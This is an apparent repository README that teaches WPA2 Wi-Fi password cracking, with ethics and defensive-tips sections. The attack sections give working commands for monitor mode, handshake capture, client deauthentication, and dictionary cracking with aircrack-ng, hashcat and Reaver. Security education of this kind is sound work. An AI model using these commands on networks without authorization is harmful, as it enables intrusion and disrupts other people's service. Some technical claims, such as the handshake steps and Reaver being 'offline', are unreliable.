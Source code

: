 # WPA2 Cracking

This repository contains a detailed guide to cracking WPA2 Wi-Fi networks for educational and ethical hacking purposes only. Always ensure you have permission to test any network you attempt to crack.

## Table of Contents

1. [Introduction](#introduction)
2. [Understanding WPA2 Encryption](#understanding-wpa2-encryption)
3. [Tools Required for WPA2 Cracking](#tools-required-for-wpa2-cracking)
4. [Setting Up a Test Environment](#setting-up-a-test-environment)
5. [Cracking WPA2 Using Aircrack-ng](#cracking-wpa2-using-aircrack-ng)
6. [Cracking WPA2 Using Hashcat](#cracking-wpa2-using-hashcat)
7. [Using Reaver for WPA2 PIN Attacks](#using-reaver-for-wpa2-pin-attacks)
8. [Best Practices & Security Measures](#best-practices--security-measures)
9. [Ethical Considerations](#ethical-considerations)
10. [Conclusion](#conclusion)

---

## Introduction

Wi-Fi Protected Access 2 (WPA2) is a security protocol used to protect Wi-Fi networks. It is commonly used in home and business networks. WPA2 uses Advanced Encryption Standard (AES) for encryption, making it more secure than its predecessor, WPA. However, WPA2 is not immune to attacks, and security researchers have identified ways to crack WPA2 passwords through techniques such as dictionary attacks, brute force, and more.


## Understanding WPA2 Encryption

WPA2 operates on a 4-way handshake that occurs when a client connects to a WPA2-secured network. This handshake is used to establish an encryption key (pairwise transient key, PTK) between the client and the access point. Cracking WPA2 essentially means capturing this handshake and trying to deduce the password from it.

### The WPA2 4-Way Handshake
- **Step 1:** The client sends a request to connect to the access point (AP).
- **Step 2:** The AP responds with a nonce (a random value).
- **Step 3:** The client generates a nonce, encrypts it with a key derived from the password, and sends it back to the AP.
- **Step 4:** The AP and client complete the handshake by verifying the generated keys.

The goal of cracking WPA2 is to capture this 4-way handshake and use a brute-force attack to guess the password by matching the captured handshake against a dictionary or through a custom attack.

---

## Tools Required for WPA2 Cracking

The following tools are commonly used for WPA2 cracking:

### 1. **Aircrack-ng**
   - A suite of tools for auditing wireless networks. It includes tools to capture handshakes, inject packets, and crack passwords using dictionary or brute-force attacks.

   - **Installation:**
     ```bash
     sudo apt update
     sudo apt install aircrack-ng
     ```

### 2. **Hashcat**
   - A powerful password-cracking tool that can be used to crack WPA2 handshakes. It uses both CPU and GPU to accelerate cracking.

   - **Installation:**
     ```bash
     sudo apt update
     sudo apt install hashcat
     ```

### 3. **Reaver**
   - A tool specifically designed for offline brute-force attacks on the WPS (Wi-Fi Protected Setup) PIN of a router, which can often be used to retrieve WPA2 passwords.

   - **Installation:**
     ```bash
     sudo apt update
     sudo apt install reaver
     ```

---

## Setting Up a Test Environment

To practice WPA2 cracking, it’s important to set up a controlled environment:

1. **Wireless Network**: You should either own a router or have permission to test an existing one.
2. **Wireless Adapter**: Ensure that your Wi-Fi adapter supports monitor mode and packet injection (e.g., Alfa AWUS036H).
3. **Kali Linux**: Kali Linux is a penetration testing distribution that comes pre-loaded with the necessary tools.

---

## Cracking WPA2 Using Aircrack-ng

### Step 1: Monitor Mode
First, put your Wi-Fi adapter into monitor mode. This allows it to listen to network traffic.

```bash
sudo airmon-ng start wlan0
```
### Step 2: Capture the 4-Way Handshake
Use airodump-ng to capture the handshake. Start monitoring the desired channel.
```bash
sudo airodump-ng wlan0mon
```
Once you identify the target network, note the channel (e.g., 6) and the BSSID (MAC address) of the AP.
```bash
sudo airodump-ng --bssid <BSSID> -c <channel> -w capture wlan0mon
```
Wait for a client to connect or deauthenticate a client to force a handshake:
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
```
Once the handshake is captured, you will see a .cap file.
### Step 3: Crack the Password
Finally, use aircrack-ng to crack the WPA2 password using a dictionary file:
```bash
aircrack-ng capture.cap -w /path/to/wordlist.txt
```
### Step 4: Success or Failure
If the correct password is found in the wordlist, the crack will succeed.
## Cracking WPA2 Using Hashcat
### Step 1: Prepare the Handshake
Use aircrack-ng to convert the .cap file into a format that Hashcat can use.

```bash
aircrack-ng capture.cap -J handshake
```
This will create a handshake.hccapx file.

### Step 2: Start Hashcat
Now, use Hashcat to crack the password using your wordlist.

```bash
hashcat -m 2500 handshake.hccapx /path/to/wordlist.txt
```
You can adjust settings based on your system’s hardware for optimized performance. You can also use combined graphics cards to make the cracking process faster using GPUs. 

## Using Reaver for WPA2 PIN Attacks
Reaver can be used to attack routers that have WPS enabled. The WPS PIN is a 8-digit number that is vulnerable to brute-force attacks.

```bash
sudo reaver -i wlan0mon -b <BSSID> -vv
```
Reaver will attempt to guess the PIN and retrieve the WPA2 password.

**Warning**: WPS attacks may take a long time (hours or days) and may also damage the router’s security (e.g., locking out further attempts).
## Best Practices & Security Measures
Use Strong Passwords:
Ensure you use long, random passwords that are difficult to guess.
Disable WPS: 
If not needed, disable Wi-Fi Protected Setup (WPS) as it is vulnerable to brute-force attacks.
Enable WPA3:
WPA3 is the latest Wi-Fi security protocol and offers better protection than WPA2.
Monitor Your Network:
Regularly check for unauthorized devices on your network.
Use VPNs: 
A Virtual Private Network (VPN) can add an extra layer of security to your online activity.
## Ethical Considerations
WPA2 cracking is a serious matter, and performing attacks on networks without permission is illegal. Always ensure you have explicit permission before attempting to crack or test the security of any Wi-Fi network.

Here are some guidelines to follow:

**Permission**: 

Obtain written permission to test the network.   

**Ethical Hacking**:

If you're conducting penetration testing, ensure it is part of a legitimate security assessment.   

**Confidentiality**: 

Respect the privacy of others and avoid causing harm to networks.
## Conclusion
Cracking WPA2 can be a rewarding challenge for ethical hackers, but it should only be done in a responsible and legal manner. By understanding the tools and techniques involved, you can better secure your own networks and contribute to improving overall network security.

